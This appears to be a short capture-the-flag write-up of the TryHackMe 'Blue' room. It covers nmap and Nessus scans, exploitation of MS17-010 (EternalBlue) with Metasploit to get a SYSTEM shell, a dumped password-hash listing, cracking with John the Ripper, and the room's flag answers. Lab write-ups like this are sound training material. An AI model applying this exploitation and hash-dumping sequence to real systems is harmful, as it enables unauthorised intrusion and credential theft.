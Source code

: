 # Try Hack Me - Blue Box

My IP = 10.8.19.163

Target IP = 10.10.160.161

Scanning the target with nmap. Command used: "nmap -sV -sC -vv --script vuln 10.10.219.160 > /home/cory/DirFusion/Blue/nmap-res.txt"

Completed. Have 9 ports open.

3 under 1000. 

NMAP Vuln scan results.

VULNERABLE
|     IDs:  CVE:CVE-2009-3103
|           Array index error in the SMBv2 protocol implementation in srv2.sys in Microsoft Windows Vista Gold, SP1, and SP2,
|           Windows Server 2008 Gold and SP2, and Windows 7 RC allows remote attackers to execute arbitrary code or cause a
|           denial of service (system crash) via an & (ampersand) character in a Process ID High header field in a NEGOTIATE
|           PROTOCOL REQUEST packet, which triggers an attempted dereference of an out-of-bounds memory location,
|           aka "SMBv2 Negotiation Vulnerability."


TryHackme does not like the answer that google pulls for that CVE. Doing a complete scan with Nessus. 

Nessus returned 2 Crit, 2 High 2 Medium and 22 Info vulnerabilities. 

Specific is MS17-010. Multiple remote code execution vulnerabilities exist in Microsoft Server Message Block 1.0 (SMBv1) due to improper handling of certain requests.

Started metasploit, using the exploit path: exploit/windows/smb/ms17_010_eternalblue

Set Rhosts to Target IP. Ran exploit. Got a shell.

Gained meterpreter session. GETUID: Server username: NT AUTHORITY\SYSTEM

For use with the questions.

2772  700   SearchIndexer.exe     x64   0        NT AUTHORITY\SYSTEM

Performed hashdump on MP shell

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

Running johntheripper

FOund password.

Flag1 in C:\ {access_the_machine}

Flag 2 in C:\Windows\System32\config {sam_database_elevated_access}

Flag 3 in C:\Users\Jon\Documents {admin_documents_can_be_valuable}




